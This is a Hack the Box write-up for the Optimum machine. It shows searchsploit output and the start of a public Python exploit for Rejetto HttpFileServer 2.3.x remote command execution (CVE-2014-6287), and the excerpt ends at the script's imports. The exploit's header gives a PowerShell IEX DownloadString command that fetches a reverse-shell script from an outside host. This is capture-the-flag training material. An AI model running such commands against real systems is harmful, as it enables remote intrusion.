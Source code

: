 # Website

The website is an old looking file server:

![[Pasted image 20210613111026.png]]

I ran a [[Writeups/Hack the Box/Boxes/Optimum/05 - Enumeration#Gobuster|gobuster scan]] in the background while I poked around.

## Trying HFS Exploits

I tried a few different exploits here. As always I'll include the failed attempts so you can see the debugging process, but you can [[Writeups/Hack the Box/Boxes/Optimum/10 - Website#Working HFS Exploit|skip to the right one]].

My first thought was to try and see if I could upload a file or exploit a CVE, so I ran `searchsploit`. It had one result:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/optimum]
└─$ searchsploit httpfileserver
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                         |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)                                                                                                            | windows/webapps/49125.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

The exploit is really short:

```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

#!/usr/bin/python3

# Usage :  python3 Exploit.py <RHOST> <Target RPORT> <Command>
# Example: python3 HttpFileServer_2.3.x_rce.py 10.10.10.8 80 "c:\windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.4/shells/mini-reverse.ps1')"

import urllib3
import sys
import urllib.parse

try:
	http = urllib3.PoolManager()	
```